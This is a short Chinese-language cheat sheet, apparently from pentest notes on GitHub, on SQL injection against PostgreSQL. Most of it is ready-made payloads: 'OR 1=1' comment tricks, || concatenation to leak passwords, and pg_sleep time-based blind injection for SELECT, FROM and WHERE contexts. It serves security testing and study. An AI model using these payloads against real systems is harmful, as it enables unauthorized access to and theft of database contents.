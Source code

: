 
## Postgresql

**相关文章**
- [SQL注入渗透PostgreSQL(bypass tricks)](https://xz.aliyun.com/t/8621)

### Postgresql 基础

**忽略**
```sql
SELECT 'admin' FROM users;
SELECT 'admin' OR 1 = 1; -- -' FROM users;
```

**||**

`||` 可用于将数据附加到同一行的输出中
```sql
SELECT ''||password FROM users; -- -';
```

**通过延时判断是否是 Postgresql 数据库的方法**

SELECT
```sql
-- 如果参数是整数：
pg_sleep(20); -- -

-- 如果参数是字符串：
'||pg_sleep(20); -- -
```

FROM
```sql
-- 当payload的第一个SELECT子句中提供了有效的表名(TABLE)和列(COLUMN)时
(SELECT * FROM [TABLE] WHERE [COLUMN]=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 或者
(SELECT * FROM [TABLE] WHERE [COLUMN] = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要一个Int
(SELECT * FROM address WHERE address_id=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要字符串时
(SELECT * FROM address WHERE address = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -
```

WHERE
```sql
-- 如果参数是整数
1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END)); -- -

-- 如果参数是字符串
'||(pg_sleep(20)); -- -
```
